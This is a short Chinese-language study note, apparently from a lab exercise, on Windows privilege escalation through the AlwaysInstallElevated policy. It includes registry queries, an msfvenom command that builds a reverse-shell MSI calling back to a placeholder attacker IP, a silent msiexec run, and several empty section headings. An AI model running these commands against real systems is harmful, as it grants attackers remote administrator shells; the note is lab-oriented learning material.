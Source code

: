 **始终安装提升**

Windows 安装程序文件（也称为 .msi 文件）用于在系统上安装应用程序。它们通常以启动它的用户的权限级别运行。但是，可以将它们配置为从任何用户帐户（甚至是非特权帐户）以更高的权限运行。这可能会让我们生成一个以管理员权限运行的恶意 MSI 文件。

注意： AlwaysInstallElevated 方法在此房间的计算机上不起作用，它仅供参考。

此方法需要设置两个注册表值。您可以使用以下命令从命令行查询这些内容。
``````
命令提示符
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
``````
为了能够利用此漏洞，两者都应该设置。否则，利用将是不可能的。如果设置了这些，您可以使用 生成恶意 .msi 文件 msfvenom，如下所示：
``````
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
``````
由于这是一个反向 shell，您还应该运行相应配置的Metasploit处理程序模块。传输创建的文件后，您可以使用以下命令运行安装程序并接收反向 shell：
``````
命令提示符
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
``````


## 滥用服务错误配置



## 滥用危险的特权

## 滥用易受攻击的软件

## 其他提权工具

>WinPEAS

>PrivescCheck

>WES-NG



>Metasploit

如果目标系统上已有 Meterpreter shell，则可以使用该multi/recon/local_exploit_suggester模块列出可能影响目标系统的漏洞，并允许您提升目标系统上的权限。





# 实战

## 命令&工具

